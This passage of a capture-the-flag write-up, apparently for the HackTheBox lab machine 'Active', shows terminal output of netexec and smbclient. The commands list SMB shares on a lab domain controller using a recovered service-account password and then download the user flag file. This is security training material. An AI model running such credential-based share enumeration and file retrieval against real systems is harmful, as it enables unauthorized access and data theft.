 <br />

```bash
❯ netexec smb active.htb -u "svc_tgs" -p "GPPstillStandingStrong2k18" --shares
SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\svc_tgs:GPPstillStandingStrong2k18 
SMB         10.10.10.100    445    DC               [*] Enumerated shares
SMB         10.10.10.100    445    DC               Share           Permissions     Remark
SMB         10.10.10.100    445    DC               -----           -----------     ------
SMB         10.10.10.100    445    DC               ADMIN$                          Remote Admin
SMB         10.10.10.100    445    DC               C$                              Default share
SMB         10.10.10.100    445    DC               IPC$                            Remote IPC
SMB         10.10.10.100    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.10.100    445    DC               Replication     READ            
SMB         10.10.10.100    445    DC               SYSVOL          READ            Logon server share 
SMB         10.10.10.100    445    DC               Users           READ    
```

<br />

We have read access to the `Users` share:

We can access this share using `smbclient`:

<br />

```bash
❯ smbclient //active.htb/Users -U "svc_tgs"
Password for [WORKGROUP\svc_tgs]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 16:39:20 2018
  ..                                 DR        0  Sat Jul 21 16:39:20 2018
  Administrator                       D        0  Mon Jul 16 12:14:21 2018
  All Users                       DHSrn        0  Tue Jul 14 07:06:44 2009
  Default                           DHR        0  Tue Jul 14 08:38:21 2009
  Default User                    DHSrn        0  Tue Jul 14 07:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 06:57:55 2009
  Public                             DR        0  Tue Jul 14 06:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 17:16:32 2018

		5217023 blocks of size 4096. 277800 blocks available
```

<br />

We then retrieve the `user.txt` flag from the `svc_tgs` desktop:

<br />

```bash
smb: \svc_tgs\Desktop\> get user.txt
getting file \svc_tgs\Desktop\user.txt of size 34 as user.txt (0,2 KiloBytes/sec) (average 0,2 KiloBytes/sec)
smb: \svc_tgs\Desktop\> 
```

```bash
❯ /usr/bin/cat user.txt
9dbbbca02bf0ac20bbe7cb0257xxxxxx
```

<br />
